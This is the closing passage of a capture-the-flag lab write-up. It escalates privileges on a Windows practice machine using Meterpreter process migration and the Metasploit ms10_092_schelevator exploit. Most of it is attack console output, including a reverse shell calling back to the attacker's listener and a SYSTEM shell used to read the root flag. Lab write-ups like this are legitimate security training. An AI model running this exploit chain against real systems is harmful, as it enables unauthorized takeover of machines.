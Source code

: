 ```
meterpreter > migrate 1148
[*] Migrating from 3528 to 1148...
[*] Migration completed successfully.
```
Note ```1148``` is the PID of ```jrunsvc.exe```.

So if we go back and exploit ```ms10_092_schelevator``` we will get a shell as ```SYSTEM```:
```
msf5 exploit(windows/local/ms10_092_schelevator) > exploit 

[*] Started reverse TCP handler on 10.10.14.28:7777 
[*] Preparing payload at C:\Users\tolis\AppData\Local\Temp\pIxwhXBQ.exe
[*] Creating task: AUUAvXtw4
[*] SUCCESS: The scheduled task "AUUAvXtw4" has successfully been created.
[*] SCHELEVATOR
[*] Reading the task file contents from C:\Windows\system32\tasks\AUUAvXtw4...
[*] Original CRC32: 0x4ce88f4f
[*] Final CRC32: 0x4ce88f4f
[*] Writing our modified content back...
[*] Validating task: AUUAvXtw4
[*] 
[*] Folder: \
[*] TaskName                                 Next Run Time          Status         
[*] ======================================== ====================== ===============
[*] AUUAvXtw4                                1/10/2020 7:05:00 ��   Ready          
[*] SCHELEVATOR
[*] Disabling the task...
[*] SUCCESS: The parameters of scheduled task "AUUAvXtw4" have been changed.
[*] SCHELEVATOR
[*] Enabling the task...
[*] SUCCESS: The parameters of scheduled task "AUUAvXtw4" have been changed.
[*] SCHELEVATOR
[*] Executing the task...
[*] Sending stage (176195 bytes) to 10.10.10.11
[*] SUCCESS: Attempted to run the scheduled task "AUUAvXtw4".
[*] SCHELEVATOR
[*] Deleting the task...
[*] Meterpreter session 2 opened (10.10.14.28:7777 -> 10.10.10.11:49639) at 2020-08-31 16:05:07 -0400
[*] SUCCESS: The scheduled task "AUUAvXtw4" was successfully deleted.
[*] SCHELEVATOR

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```
Let's drop a shell and get the Root Flag:
```
meterpreter > shell 
Process 3172 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\Administrator>cd Desktop

C:\Users\Administrator\Desktop>type root.txt
type root.txt
ce65cee...08ffb90
```
Thank you for reading, and you can find me here on twitter: https://twitter.com/electronicbots
